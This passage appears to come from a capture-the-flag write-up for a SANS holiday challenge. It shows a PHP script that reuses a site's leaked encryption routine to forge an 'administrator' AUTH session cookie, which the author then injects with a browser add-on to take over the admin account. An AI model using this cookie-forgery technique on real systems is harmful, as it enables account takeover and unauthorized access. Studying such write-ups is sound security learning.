 By taking the cookie generating code from `login.php`, I created a new PHP file called `admin_cookie.php` which looks like this:

```yaml
<?php
  # This should be the first require
  require_once('this_is_html.php');
  require_once('crypto.php');
  require_once('db.php');

$auth = encrypt(json_encode([
      'username' => 'administrator',
      'date' => date(DateTime::ISO8601),
    ]));

	setcookie('AUTH', bin2hex($auth));
	echo '[*] Administrator Session Cookie Generated:  AUTH='; 
	echo bin2hex($auth);

?>
```
Keeping the required files at the top, hardcoding the username to `administrator` then echoing out the generated session (AUTH) cookie.  This is what it looks like when you view it in the browser:

![admin_cookie](/assets/images/sans2016/analytics_admin_cookie.png)

With this session cookie, I am essentially the administrator user, just have to inject it. To do that, go back to the real analytics site and use the [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus) Firefox add-on.

![admin_cookie](/assets/images/sans2016/admin_login1.png)
